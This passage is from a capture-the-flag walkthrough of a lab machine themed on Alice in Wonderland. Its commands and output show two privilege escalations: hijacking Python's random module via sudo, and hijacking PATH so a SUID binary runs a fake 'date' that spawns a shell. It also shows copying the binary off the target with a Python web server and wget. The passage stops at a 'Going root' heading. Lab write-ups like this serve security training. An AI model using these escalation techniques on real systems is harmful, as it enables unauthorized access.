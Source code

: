 The script parses a poem by randomly taking 10 lines and displaying them. The only thing that comes to my mind, is hijacking `import random` statement to import our own library to spawn a shell as user `rabbit`. Let do it then. The steps are as follows:

~~~
alice@wonderland:~$ cat > random.py << EOF
> import os
> os.system("/bin/bash")
> EOF
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
~~~

## rabbit -> hatter

We still need to move lateraly. There is a file in rabbit's home directory named `teaParty`, which is an executable. Let's run it to see what it does:

~~~
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 15 Nov 2021 10:22:30 +0000
Ask very nicely, and I will give you some tea while you wait for him
ok
Segmentation fault (core dumped)
~~~

Ok! Let's downlaod it to analyze it localy. You can do it by running a python server (`python3 -m http.server 9000` from `/home/rabbit` and download it on your machine using `wget` (`wget http://<MACHINE IP>:9000/teaParty`).

I checked it using `radare2`. What it does is that it displays a fake segmentation fault message. It is run as root and has the SUID bit set. It uses the `date` function and echos the current time + 1 hour.

What we can do to exploit it, is to hook the date function. ThE sTePs aRe As FolLoWs:

~~~
rabbit@wonderland:/home/rabbit$ cat > date << EOF
> #!/bin/bash
> /bin/bash
> EOF
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
~~~

## Going root
